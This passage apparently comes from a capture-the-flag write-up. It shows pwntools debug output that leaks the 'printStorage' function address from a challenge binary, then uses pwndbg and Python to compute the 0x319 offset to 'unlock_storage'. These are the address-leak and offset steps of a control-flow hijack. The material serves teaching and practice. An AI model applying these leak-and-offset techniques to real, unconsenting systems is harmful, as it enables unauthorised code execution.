 
{{< rawhtml >}}
<div class="highlight"><pre tabindex="0" style="color:#f8f8f2;background-color:#272822;-moz-tab-size:4;-o-tab-size:4;tab-size:4;"><code style="background-color:initial;">    b&apos;[*] What do you want to do? &apos;
[<font color="#F92672"><b>DEBUG</b></font>] Sent 0x2 bytes:
    b&apos;1\n&apos;
[<font color="#F92672"><b>DEBUG</b></font>] Received 0x17a bytes:
    00000000  <font color="#F92672">0a</font> <font color="#66D9EF">1b</font> 5b 31  3b 33 32 6d  57 65 61 70  6f 6e 73 20  │<font color="#F92672">·</font><font color="#66D9EF">·</font>[1<font color="#66D9EF">│</font>;32m<font color="#66D9EF">│</font>Weap<font color="#66D9EF">│</font>ons │
    00000010  69 6e 20 73  74 6f 63 6b  3a 20 <font color="#F92672">0a</font> 20  59 59 59 59  │in s<font color="#66D9EF">│</font>tock<font color="#66D9EF">│</font>: <font color="#F92672">·</font> <font color="#66D9EF">│</font>YYYY│
    00000020  59 59 59 59  59 59 59 59  59 59 59 59  59 59 59 59  │YYYY<font color="#66D9EF">│</font>YYYY<font color="#66D9EF">│</font>YYYY<font color="#66D9EF">│</font>YYYY│
    *
    00000060  59 59 59 59  <font color="#66D9EF">e6</font> <font color="#66D9EF">0b</font> 40 55  55 55 20 <font color="#66D9EF">1b</font>  5b 31 3b 33  │YYYY<font color="#66D9EF">│··</font>@U<font color="#66D9EF">│</font>UU <font color="#66D9EF">·│</font>[1;3│
    *
[<font color="#66D9EF"><b>*</b></font>] printStorage leak: 0x555555400be6
[<font color="#66D9EF"><b>*</b></font>] Switching to interactive mode
</code></pre></div>
{{< /rawhtml >}}


### Calculate the Offset

First, let's use *gdb* to see the address of each function.

{{< rawhtml >}}
<div class="highlight"><pre tabindex="0" style="color:#f8f8f2;background-color:#272822;-moz-tab-size:4;-o-tab-size:4;tab-size:4;"><code style="background-color:initial;"><font color="#F92672"><b>pwndbg&gt; </b></font>p printStorage 
$1 = {&lt;text variable, no debug info&gt;} <font color="#66D9EF">0x555555400be6</font> &lt;<font color="#F4BF75">printStorage</font>&gt;
<font color="#F92672"><b>pwndbg&gt; </b></font>p unlock_storage 
$2 = {&lt;text variable, no debug info&gt;} <font color="#66D9EF">0x555555400eff</font> &lt;<font color="#F4BF75">unlock_storage</font>&gt;
</code></pre></div>
{{< /rawhtml >}}


Now, let's calculate the offset between the two functions with *python*.

{{< rawhtml >}}
<div class="highlight"><pre tabindex="0" style="color:#f8f8f2;background-color:#272822;-moz-tab-size:4;-o-tab-size:4;tab-size:4;"><code style="background-color:initial;">$ python3
Python 3.10.6 (main, Nov 14 2022, 16:10:14) [GCC 11.3.0] on linux
>>> hex(0x555555400eff - 0x555555400be6)
'0x319'
</code></pre></div>
{{< /rawhtml >}}
